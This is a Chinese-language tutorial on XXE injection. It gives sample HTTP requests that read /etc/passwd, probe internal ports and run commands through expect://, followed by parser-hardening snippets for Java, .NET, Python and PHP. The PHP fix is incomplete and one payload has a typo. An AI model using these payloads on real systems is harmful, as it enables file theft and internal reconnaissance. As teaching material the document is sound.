 # XXE漏洞

## 1、概述

XXE（XML External Entity injection）XML外部实体注入漏洞。

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，造成**任意文件读取、命令执行、SSRF**等危害。

- 分类：Web通用漏洞
- 风险等级：高危

## 2、漏洞原理

若网站支持XML-RPC（XML Remote Procedure Call），用户提交的数据格式如下：

```http
POST /xxe HTTP/1.1
Host: aaa.com
Content-Type: text/xml
<?xml version="1.0"?>
<student>
<username>xxx</username>
<password>yyy</password>
<address>zzz</address>
</student>
```

攻击者可以通过插入DTD标签读取文件：

- 读取etc/passwd

```http
POST /xxe HTTP/1.1
Host: aaa.com
Content-Type: text/xml
<?xml version="1.0"?>
<!DOCTYPE ANY [<!ENTITY f SYSTEM "file:///etc/passwd">]>
<student>
<username>xxx</username>
<password>yyy</password>
<address>zzz</address>
</student>
```

- 探测端口

```http
POST /xxe HTTP/1.1
Host: aaa.com
Content-Type: text/xml
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ENTITY xxe SYSTEM "http://127.0.0.1:8080">]>
<student>
<username>xxx</username>
<password>yyy</password>
<address>zzz</address>
</student>
```

- 执行命令

```http
POST /xxe HTTP/1.1
Host: aaa.com
Content-Type: text/xml
<?xml version="1.0"?>
<!DOCTYPE GVI [<!ELEMENT foo ANT><!ENTITY xxe SYSTEM "expect://id">]>
<student>
<username>xxx</username>
<password>yyy</password>
<address>zzz</address>
</student>
```

## 3、漏洞挖掘

遇到提交数据为XML格式时，尝试使用DTD标签引入文件读取并观察回显。对于无回显的可以用盲打技术。

## 4、漏洞防御

1. 及时修复或更新应用程序或底层操作系统使用的所有XML处理器和库；
2. 使用[开发语言提供的禁用外部实体](#批注1)的方法：`https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Prevention_Cheat_Sheet`

## 5、实验

对应实验9

## 6、批注

<a name="批注1">禁用外部实体</a> ：

Java

在使用Java处理XML时，禁用外部实体的方式可以是在解析XML前设置一个特殊的属性：

```java
DocumentBuilderFactory factory = DocumentBuilderFactory.newInstance();
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```

 .NET (C#)

在.NET中，可以通过设置XmlReaderSettings类中的属性来禁用外部实体：

```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.XmlResolver = null;
```

Python (lxml)

使用Python的lxml库解析XML时，可以通过禁用外部实体来防止XXE攻击：

```python
from lxml import etree

parser = etree.XMLParser(resolve_entities=False)
```

PHP

在PHP中，可以通过禁用实体解析来防止XXE攻击：

```php
$doc = new DOMDocument();
$doc->loadXML($xml, LIBXML_NONET);
```

这些代码片段提供了各种语言中防止XXE攻击的方法示例。注意，XXE防护方法可能因语言和框架的不同而异，使用时请查阅官方文档或特定语言的安全最佳实践。